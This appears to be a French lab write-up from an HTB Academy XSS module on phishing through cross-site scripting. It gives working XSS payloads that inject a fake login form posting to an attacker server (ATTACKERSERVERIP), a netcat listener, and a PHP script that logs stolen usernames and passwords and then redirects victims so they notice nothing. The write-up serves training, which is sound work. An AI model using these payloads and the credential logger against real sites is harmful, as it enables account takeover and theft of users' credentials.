 ```yaml
---
title:  "Phishing"
category: "Attaque XSS"
tag: "Cross-Site Scripting (XSS)"
---
```


Un autre type d'attaque courante d'XSS est le phishing. Les attaques de phishing utilisent généralement des informations d'apparence légitime pour inciter les victimes à envoyer leurs informations sensibles à l'attaquant.

Une forme courante d'attaques de phishing XSS consiste à injecter de faux formulaires de connexion qui envoient les données de connexion au serveur de l'attaquant, qui peut alors les utiliser pour se connecter au nom de la victime et prendre le contrôle de son compte et de ses informations sensibles.

# Découverte XSS

Pour comprendre l'exemple ici, il est nécessaire d'avoir un peu de contexte. Nous avons accès à un site vulnérable fourni par HTBAcademy.

La page principale contient un champ vulnérable à l'XSS, dont le but fonctionnel est d'afficher une image dans la page courante à partir d'un lien fourni dans un champ vulnérable.

Il s'agit ici de découvrir une XSS, voir dans la section dédiée pour la façon de faire.

# Injection du formulaire de connexion

Une fois qu'on a trouvé un payload XSS, on peut procéder au phishing.
Pour cela nous devons injecter du code HTML qui affiche un formulaire de connection sur la page cible.
Ce formulaire devra envoyer les informations d'authentification au serveur de l'attaquant, qui est en écoute, de sorte à ce qu'il reçoive
les informations une fois qu'un utilisateur essaye de se connecter.

Par exemple on peut utiliser :
```html
<form action=http://ATTACKERSERVERIP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Avec ATTACKERSERVERIP l'adresse IP du serveur en écoute dans l'optique de recevoir les informations de la cible.\
La prochaine étape est de tester notre code XSS avec le formulaire vulnérable. Pour cela, nous pouvons utiliser 
la fonction javascript **document.write()** et utiliser le payload XSS précédement trouvé.

Dans l'exemple fourni par HTB, le payload combiné au formulaire donne le code suivant à injecter dans le champ "d'image viewer" :
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKERSERVERIP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```

Le site cible possède l'affichage suivant :
<center><img src="/assets/images/htbAcademy/XSSModule/imageViewer.png" alt="Alt text"></center>

Il enverra les informations de connection à notre serveur ayant l'adresse ATTACKERSERVERIP comme indiqué dans le payload.

# Nettoyage

On peut voir que le site possède toujours le champ permettant l'affichage d'une image à partir de l'url (utilité originale du site exemple).
On va supprimer ce champ afin d'inciter l'utilisateur du site à s'authentifier à l'aide de la fonction **document.getElementById().remove()**.

On peut voir que l'**id** de ce champ est **urlform**.
<center><img src="/assets/images/htbAcademy/XSSModule/idPhishing.png" alt="Alt text"></center>

On peut donc le supprimer avec le code suivant :
```javascript
document.getElementById('urlform').remove();
```

En combinant avec le code précédent, on obtient le code javascript suivant :
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKERSERVERIP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```
On voit bien que le champ pour l'image a disparu.
<center><img src="/assets/images/htbAcademy/XSSModule/XSSafterRemove.png" alt="Alt text"></center>

Cependant, il reste un résidu de code html, que l'on peut faire disparaître en le commentant en ajoutant un **<!--** à la fin du code.

Le payload final pour l'exemple était :
```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKERSERVERIP:80><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

On a donc mis en entrée utilisateur de ce champ le payload précédent, ce qui nous a donné une page web contenant un formulaire d'authentification qui enverra une requête HTTP avec les logins et password à notre serveur d'attaque.

Nous pouvons donc enfin copier coller l'URL de cette page (qui contient l'intégralité du paylaod) et l'envoyer à la victime dans le but de la tromper en la faisant se connecter à un faux formulaire de connection.

# Vol de Credentials

Nous arrivons à la partie finale de l'attaque, qui consiste au vol de credentials. Avec ce que nous avons fait jusqu'ici, la victime recevra un message du type 
> Unable to connect\
> **Firefox can’t establish a connection to the server at SERVERIP.**

Ce qui est normal puisque le formulaire envoie les informations qu'il contient vers une adresse IP qui ne mène nul part pour l'instant.

### Mettre un serveur en écoute
Dans un premier temps, nous allons mettre un serveur en écoute à l'aide de netcat.
Le serveur recevra les requête HTTP du formulaire (et donc les informations que la victime aura saisies).
Utilisons netcat pour cela :

```console
Misoko@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Maintenant, si nous remplissons le formulaire précédent avec par exemple les credentials **testLogin:testPassword**, on reçoit bien les credentials dans la requête GET du côté serveur en écoute :
> **/?username=testLogin&password=testPassword**

<center><img src="/assets/images/htbAcademy/XSSModule/ncListenning.png" alt="Alt text"></center>


Cependant la victime reçoit une erreur après avoir validé le formulaire :


<center><img src="/assets/images/htbAcademy/XSSModule/unableConnect.png" alt="Alt text"></center>

Ce message empêche l'utilisateur à accéder au site de départ, ce qui va soulever des suspicions.

### Logs de credentials et Redirectiion

Nous pouvons faire un rapide script php qui va logger les credentials et rediriger les utilisateurs vers le site original de sorte à ce que l'utilisateur pense réellement qu'il a réussit à se connecter et a accèdé au contenu destiné.

Nous pouvons appeler le fichier qui contient le script **index.php** et le placer à l'endroit où nous mettons notre serveur en écoute, dans **/tmp/tmpServer** par exemple.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.150.228/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Voici la manipulation pour créer l'environnement pour utiliser le script :
```console
Misoko@htb[/htb]$ mkdir /tmp/tmpserver
Misoko@htb[/htb]$ cd /tmp/tmpserver
Misoko@htb[/htb]$ vi index.php #at this step we wrote our index.php file
Misoko@htb[/htb]$ sudo php -S 0.0.0.0:80
```

# Résumé
A partir de ce moment là, nous avons tout le cheminement qui est fait:
- Nous avons découvert une vulnérabilité XSS.
- Nous l'avons exploitée en trouvant un payload qui crée un formulaire d'authentification et modifie l'aspect du site.
- Nous récupérons le nouveau lien du site qui contient ce formulaire et l'envoyons à l'utilisateur cible de l'attaque.
- Le formulaire d'authentification envoie les données à un serveur en écoute.
- Le serveur en écoute stocke les informations d'authentification (credentials) et redirige sur le lien du site d'origine.
- L'utilisateur accède à sa fonctionnalité et ne s'est aperçu de rien.